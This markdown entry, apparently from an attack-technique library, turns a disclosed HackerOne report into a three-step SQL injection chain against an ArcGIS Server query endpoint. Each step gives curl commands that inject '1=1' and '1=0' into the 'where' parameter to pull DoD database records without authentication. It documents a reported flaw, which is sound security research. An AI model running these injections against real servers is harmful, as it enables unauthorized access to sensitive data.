

---
tags:
  - sqli
  - arcgis
  - database-exfiltration
  - blind-sqli
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-ArcGIS-Query-Endpoint]]'
  - '[[procedures/Test-SQL-Injection-with-Tautological-Condition]]'
  - '[[procedures/Confirm-SQL-Injection-with-False-Condition]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:46:26.190Z'
description: >-
  Multi-stage exploitation of an SQL injection vulnerability in the 'where'
  parameter of an ArcGIS Server query endpoint, allowing unauthorized retrieval
  of sensitive U.S. Department of Defense database records.
skill_level: intermediate
impact_level: high
id: 43e1db57-15c5-4ac2-a1fd-b16be3280ab9
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SQL Injection in ArcGIS Server 'where' Parameter to Exfiltrate DoD Database Records

Multi-stage attack chain demonstrating exploitation of an SQL injection vulnerability in the 'where' parameter of an ArcGIS Server query endpoint, as reported in HackerOne #2433970. This allows an attacker to bypass restrictions and retrieve all sensitive records from a U.S. Department of Defense database instance running ArcGIS 10.1 SP1.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-query-arcgis]]

### Target Environment

- ArcGIS Server 10.1 SP1 or vulnerable versions
- Exposed query endpoint at /arcgis/rest/services/.../query
- Network access to the public-facing ArcGIS instance

### Initial Access Requirements

- No credentials required (public endpoint)
- Direct internet access to the target URL
- No prior access needed

## Detailed Attack Procedures

### Step 1: Access the ArcGIS Query Endpoint
procedure: [[procedures/Access-ArcGIS-Query-Endpoint]]

**Objective**: Load the query interface to identify the 'where' parameter for manipulation.

**Instructions**: Navigate to the target endpoint using a browser or curl to display the HTML form. Use the following curl command to fetch the initial page:

```bash
curl "https://█████/arcgis/rest/services/Data/ANC_External/MapServer/1/query?where=&text=&objectIds=&time=&timeRelation=esriTimeRelationOverlaps&geometry=&geometryType=esriGeometryEnvelope&inSR=&spatialRel=esriSpatialRelIntersects&distance=&units=esriSRUnit_Foot&relationParam=&outFields=&returnGeometry=true&returnTrueCurves=false&maxAllowableOffset=&geometryPrecision=&outSR=&havingClause=&returnIdsOnly=false&returnCountOnly=false&orderByFields=&groupByFieldsForStatistics=&outStatistics=&returnZ=false&returnM=false&gdbVersion=&historicMoment=&returnDistinctValues=false&resultOffset=&resultRecordCount=&returnExtentOnly=false&sqlFormat=none&datumTransformation=&parameterValues=&rangeValues=&quantizationParameters=&featureEncoding=esriDefault&f=html"
```

**Expected Output**: HTML form displaying query parameters, including an empty 'where' field.

**Success Indicators**:
- Form loads without errors
- 'where' parameter visible for input

### Step 2: Test SQL Injection with Tautological Condition
procedure: [[procedures/Test-SQL-Injection-with-Tautological-Condition]]

**Objective**: Inject a payload to bypass filters and retrieve all database records, confirming injection point.

**Instructions**: Modify the 'where' parameter to '1=1' and submit the query. Using curl:

```bash
curl "https://█████/arcgis/rest/services/Data/ANC_External/MapServer/1/query?where=1%3D1&text=&objectIds=&time=&timeRelation=esriTimeRelationOverlaps&geometry=&geometryType=esriGeometryEnvelope&inSR=&spatialRel=esriSpatialRelIntersects&distance=&units=esriSRUnit_Foot&relationParam=&outFields=&returnGeometry=true&returnTrueCurves=false&maxAllowableOffset=&geometryPrecision=&outSR=&havingClause=&returnIdsOnly=false&returnCountOnly=false&orderByFields=&groupByFieldsForStatistics=&outStatistics=&returnZ=false&returnM=false&gdbVersion=&historicMoment=&returnDistinctValues=false&resultOffset=&resultRecordCount=&returnExtentOnly=false&sqlFormat=none&datumTransformation=&parameterValues=&rangeValues=&quantizationParameters=&featureEncoding=esriDefault&f=html"
```

**Expected Output**: Full list of database records returned in HTML or JSON format.

**Success Indicators**:
- All records (beyond normal limits) displayed
- No filtering applied, indicating successful injection

### Step 3: Confirm SQL Injection with False Condition
procedure: [[procedures/Confirm-SQL-Injection-with-False-Condition]]

**Objective**: Verify vulnerability by injecting a false condition that should return no results, proving direct SQL influence.

**Instructions**: Modify the 'where' parameter to '1=0' and submit. Using curl:

```bash
curl "https://█████/arcgis/rest/services/Data/ANC_External/MapServer/1/query?where=1%3D0&text=&objectIds=&time=&timeRelation=esriTimeRelationOverlaps&geometry=&geometryType=esriGeometryEnvelope&inSR=&spatialRel=esriSpatialRelIntersects&distance=&units=esriSRUnit_Foot&relationParam=&outFields=&returnGeometry=true&returnTrueCurves=false&maxAllowableOffset=&geometryPrecision=&outSR=&havingClause=&returnIdsOnly=false&returnCountOnly=false&orderByFields=&groupByFieldsForStatistics=&outStatistics=&returnZ=false&returnM=false&gdbVersion=&historicMoment=&returnDistinctValues=false&resultOffset=&resultRecordCount=&returnExtentOnly=false&sqlFormat=none&datumTransformation=&parameterValues=&rangeValues=&quantizationParameters=&featureEncoding=esriDefault&f=html"
```

**Expected Output**: Empty response or no records returned.

**Success Indicators**:
- Zero records returned, confirming parameter controls SQL execution
- No server errors, indicating unsanitized input

## Attack Chain Summary

### Key Achievements

1. Confirmed blind SQL injection in ArcGIS 'where' parameter
2. Bypassed query restrictions to access all DoD database records
3. Demonstrated potential for sensitive data exfiltration without authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
